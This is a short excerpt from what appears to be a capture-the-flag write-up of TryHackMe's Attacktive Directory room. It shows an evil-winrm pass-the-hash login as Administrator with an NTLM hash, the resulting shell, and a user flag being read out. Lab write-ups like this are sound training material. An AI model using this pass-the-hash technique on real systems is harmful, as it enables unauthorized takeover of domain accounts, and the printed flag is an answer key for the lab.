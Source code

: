 `-H`

```bash
root@kali:~/thm/attackive-directory# evil-winrm -i $TARGET -u Administrator -H 0e0363213e37b94221497260b0bcb4fc

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\Administrator\Documents> whoami
thm-ad\administrator
```

![secretsdump](/assets/img/thm/windows/attackive-directory/secretsdump.png)

___

## Flag Submission Panel

### svc-admin

```powershell
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\svc-admin\Desktop> dir


    Directory: C:\Users\svc-admin\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  12:18 PM             28 user.txt.txt


[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mC:\Users\svc-admin\Desktop> type user.txt.txt
TryHackMe{K3rb3r0s_Pr3_4uth}
```
